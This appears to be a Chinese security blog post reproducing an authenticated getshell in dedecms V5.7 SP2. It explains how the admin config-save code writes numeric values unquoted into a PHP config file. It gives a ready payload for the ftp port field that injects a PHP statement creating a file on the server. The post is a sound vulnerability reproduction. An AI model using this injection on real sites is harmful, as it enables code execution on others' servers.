 ```yaml
---
title: dedecms V5.7 SP2后台sys_info Getshell
date: 2019-03-12 10:58:48
tags: [cms]
categories: dedecms
---
```


# dedecms V5.7 SP2后台sys_info Getshell(复现)

---

## 思路：

将恶意代码写入配置文件，通过文件包含来getshell

## 代码分析：

- dede/sys_info.php


```php
//保存配置的改动
if($dopost=="save")
{
    if(!isset($token)){
        echo 'No token found!';
        exit;
    }
	//验证token
    if(strcasecmp($token, $_SESSION['token']) != 0){
        echo 'Token mismatch!';
        exit;
    }
    foreach($_POST as $k=>$v)
    {
        if(preg_match("#^edit___#", $k))
        {
            $v = cn_substrR(${$k}, 1024);
        }
        else
        {
            continue;
        }
        $k = preg_replace("#^edit___#", "", $k);
        $dsql->ExecuteNoneQuery("UPDATE `#@__sysconfig` SET `value`='$v' WHERE varname='$k' ");
    }
    //更新配置函数
    ReWriteConfig();
    ShowMsg("成功更改站点配置！", "sys_info.php");
    exit();
}
```

通过<font color="red">foreach($_POST as $k=>$v)</font>接收参数后，更新了数据库，接着进入<font color="red">ReWriteConfig()</font>函数更新配置。

- ReWriteConfig

  ```php
  //更新配置函数
  function ReWriteConfig()
  {
      global $dsql,$configfile;
      if(!is_writeable($configfile))
      {
          echo "配置文件'{$configfile}'不支持写入，无法修改系统配置参数！";
          exit();
      }
      $fp = fopen($configfile,'w');
      flock($fp,3);
      fwrite($fp,"<"."?php\r\n");
      $dsql->SetQuery("SELECT `varname`,`type`,`value`,`groupid` FROM `#@__sysconfig` ORDER BY aid ASC ");
      $dsql->Execute();
      while($row = $dsql->GetArray())
      {
          if($row['type']=='number')
          {
              if($row['value']=='') $row['value'] = 0;
              fwrite($fp,"\${$row['varname']} = ".$row['value'].";\r\n");
          }
          else
          {
              fwrite($fp,"\${$row['varname']} = '".str_replace("'",'',$row['value'])."';\r\n");
          }
      }
      fwrite($fp,"?".">");
      fclose($fp);
  }
  ```

  这个函数将读取数据库来对配置文件进行更新，但是没有做验证。<font color="red">while($row = $dsql->GetArray())</font>中有两个分支，这里利用的是第一个分支，当类型为数字型的参数直接写入配置文件。

  接下来只要随便找一个默认数字型的参数就可以了。

  登入后台，在<font color="red">sys_info.php</font>搜索数字型的参数，这里以ftp为例

  ![001](/img/dedecms/dedecms_V5.7_SP2后台sys_info_getshell/001.png)

修改参数为：<font color="red">21;fputs(fopen("phpinfo.php", "w"), "<?php phpinfo(); ?>")</font>

burp包如下

![002](/img/dedecms/dedecms_V5.7_SP2_sys_info_getshell/002.png)

查看返回包,修改配置成功

![003](/img/dedecms/dedecms_V5.7_SP2_sys_info_getshell/003.png)

生成phpinfo.php

![004](/img/dedecms/dedecms_V5.7_SP2_sys_info_getshell/004.png)